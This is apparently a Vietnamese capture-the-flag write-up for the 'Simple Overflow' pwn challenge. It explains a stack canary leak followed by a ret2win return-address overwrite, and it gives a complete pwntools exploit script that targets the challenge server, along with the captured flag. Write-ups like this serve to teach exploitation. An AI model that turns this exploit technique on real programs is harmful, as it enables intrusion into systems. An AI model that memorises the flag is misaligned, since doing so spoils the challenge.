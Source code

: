# Simple Overflow.
## Hướng Giải.
![1702831922520](image/SimpleOverflow/1702831922520.png)
![1702832097975](image/SimpleOverflow/1702832097975.png)
![1702832106830](image/SimpleOverflow/1702832106830.png)
- Bài này là ret2win cơ bản , và chương trình cho phép ta nhập số lần lặp ở chỗ nhập `Data` và hmmm ở đây chương trình xài `scanf` và có `puts` có thể sẽ có leak dữ liệu , Vào GDB để tìm khai thác nhé.
![1702833274181](image/SimpleOverflow/1702833274181.png)
- Checksec ở đây có `canary` nhưng mà ko sao với `read` và chương trình cho phép lặp thì ta có thể leak canary và ret2win bình thường.
![1702833415419](image/SimpleOverflow/1702833415419.png)
- dữ liệu ta nhập vào ở chỗ `$rsi` ta chỉ cần tính offset , leak canary .

```
#!/usr/bin/python3

from pwn import *

exe = ELF('simple_overflow', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*0x0000000000401447
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116', 12004)
else:
        p = process(exe.path)

GDB()
sla(b"Give me your name: ", b'zuy')
sla(b"How many data you want to save?\n", b'2')
payload = b'a'*57
sa(b"Data: ",payload)
p.recvuntil(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
canary = u64(p.recv(7) + b'\x00')
info("canary: " + hex(canary))

payload = b'a'*56 + b'\0' +  p64(canary) + b'a'*7 + p64(exe.sym['win'] + 5)
sa(b"Data: ",payload)


p.interactive()
```
- Vì bài này khá dễ nên mình up script lun , canary của mình leak ko giống với canary của chall và nó bị thiếu null byte ở cuối , cho nên mình cộng thêm 1 byte null vào để bypass cái stack_check_fail :Đ.

- Chạy script thì ta đã thu đc shell ròi.
![1702834040173](image/SimpleOverflow/1702834040173.png)

`FLAG: KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}`